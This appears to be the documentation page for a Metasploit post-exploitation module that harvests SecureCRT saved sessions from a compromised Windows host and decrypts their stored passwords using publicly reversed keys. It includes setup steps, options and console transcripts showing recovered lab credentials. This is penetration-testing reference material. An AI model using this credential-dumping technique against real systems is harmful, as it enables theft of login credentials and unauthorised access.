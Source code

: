 ## Vulnerable Application

All [SecureCRT](https://www.vandyke.com/cgi-bin/releases.php?product=securecrt) installations are affected, regardless
of which OS they are installed on, since they all use the same encryption mechanisms described by HyperSine in
his [GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).
Note that at the moment this module only supports exploiting Windows machines.

### Overview
All versions of SecureCRT have an option to allow users to store an encrypted copy of their session information on the
local computer, allowing them to easily restart a session without having to reenter all the connection details such as
the host, username, and password. These details are stored in a local session file, and SecureCRT will additionally
encrypt the password with AES encryption.

Unfortunately for SecureCRT users, the encryption mechanism used uses a weak IV of all 0's, and the encryption
keys that are utilized to encrypt the passwords have been publicly reversed and documented by HyperSine
in [his GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

In addition, HyperSine also published a PoC script that allows users to decrypt SecureCRT session files, regardless
of the version of SecureCRT installed. The only limitation is that users must know the SecureCRT configuration password
if one was set at installation. At the time of writing, September 11, 2020, it appears that Vandyke, the creators of
SecureCRT, have still not changed the implementation details for this session encryption algorithm.

This module ports the work from HyperSine and implements it in a Metasploit module that allows users to easily retrieve
any SecureCRT session files from a compromised Windows machine and then decrypt the session passwords where its possible
to do so. All session information retrieved will be stored a Metasploit loot file, along with the password if
it can be decrypted.

### Setup Steps

1. Download the latest installer of SecureCRT from https://www.vandyke.com/cgi-bin/releases.php?product=securecrt.
   You will need a valid login, which can be obtained by completing the registration form at
   https://www.vandyke.com/cgi-bin/download_application.php?pid=scrt_x64_873&force=1, after which an
   email will be sent to you with the valid login details.
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start SecureCRT. A prompt will appear asking if one wants to set a
   configuration passphrase to encrypt sensitive data such as saved passwords and login actions. Set a
   passphrase of your choice here, but be sure to remember it.
4. Set up a SSH server on your target. For Windows 10 v1809 and later and
   Windows Server 2019 and later, this can be done by running the PowerShell
   command `Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`,
   followed by `Start-Service sshd`.

## Verification Steps

  1. Use SecureCRT to login to a SSH server of your choosing. When logging in,
     remember to select the check boxes to save the username (should be selected
     by default), as well as the checkbox to save the account password.
  3. Get a `meterpreter` session on the Windows host running SecureCRT.
  4. Do: `run post/windows/gather/credentials/securecrt`
  5. Optional: Run `set PASSPHRASE *SecureCRT configuration passphrase*` if a configuration
     passphrase was set for SecureCRT and you are aware of what its value is.
  5. If the session file was saved on the target, the module will print out the details
     of the host and port that the user connected to, as well as which username the user
     signed in with and the plaintext version of the password that was used.

## Options

### PASSPHRASE
The configuration password that was set when SecureCRT was installed, if one was supplied.
Note that if this value is not supplied and SecureCRT was set up to use a configuration password,
it will not be possible to decrypt the encrypted SecureCRT passwords that are retrieved.

### SESSION_PATH
The path to the SecureCRT session directory on the target's computer. By default this is normally
stored at `C:\\Users\\*current user name*\\AppData\\Roaming\\VanDyke\\Config\\Sessions` if SecureCRT
is installed on the system, however SecureCRT also has a portable version that stores the session information
in a local folder along with the SecureCRT binary itself, allowing users to easily transfer their session
information between machines. In this case, users can set the `SESSION_PATH` option to the location
of the session directory within the portable folder to allow them to obtain SecureCRT session
information even if a portable version of SecureCRT is utilized on the target.

## Scenarios

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > set Passphrase whatabadpassword
Passphrase => whatabadpassword
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\normal\AppData\Roaming\VanDyke\Config\Sessions
SecureCRT Sessions
==================

Filename           Protocol  Hostname   Port  Username              Password
--------           --------  --------   ----  --------              --------
127.0.0.1 (1).ini  telnet    127.0.0.1  23    RAPID7\Administrator  thePassword123!
127.0.0.1 (2).ini  ssh2      127.0.0.1  22    Administrator         thePassword123!
127.0.0.1 (3).ini  ssh2      127.0.0.1  22    Administrator
127.0.0.1.ini      telnet    127.0.0.1  23

msf6 post(windows/gather/credentials/securecrt) >
```

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled, But No Password Provided)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] It seems the user set a configuration password when installing SecureCRT!
[-] If you know the configuration password, please provide it via the PASSPHRASE option and then run the module again.
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125521_default_172.20.150.24_host.securecrt_s_951139.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/securecrt) >
```
